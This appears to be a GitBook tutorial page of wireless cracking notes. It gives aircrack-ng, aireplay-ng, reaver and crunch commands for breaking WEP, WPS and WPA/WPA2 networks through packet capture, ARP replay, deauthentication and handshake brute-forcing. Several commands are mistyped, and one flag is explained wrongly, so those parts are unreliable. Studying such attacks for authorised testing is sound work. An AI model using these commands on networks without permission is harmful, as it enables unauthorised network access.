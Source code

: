 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wps hacking.

`wash --interface wlan0mon` a wps recon tool to search around for wps enabled AP/routers.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p><code>wash</code></p></figcaption></figure>

`aireplay-ng --fakeauth 30 -a targetMacAddr -c wirelessAdapterMacAddr wlan0mon` This creates association with the target network every 30 seconds.

`reaver --bssid targetBssid --channel targetChannel -i wlan0mon -vvv --no-associate` running reaver to carryout bruteforcing.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><code>reaver</code></p></figcaption></figure>

### wpa / wpa2 hacking

`airodump-ng --bssid 98:A9:42:27:A2:CA --channel 10 --write wpa_handshake wlan0mon` to create a handshake .cap file.&#x20;

`aireplay-ng --deauth 20 -a 98:A9:42:27:A2:CA -c A8:9C:ED:3A:5E:B7 wlan0mon` where `-a` is AP macAddr and `-c` is client macAddr.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-55 (1).png" alt=""><figcaption><p>captured handshake</p></figcaption></figure>

using the `crunch` utility to create a word list for bruteforcing.

`crunch 6 6 abc123 -o test.txt -t a@@bb` use the man crunch for guides.

`aircrackng wpa_handshake-01.cap -w test.txt` to run bruteforce.

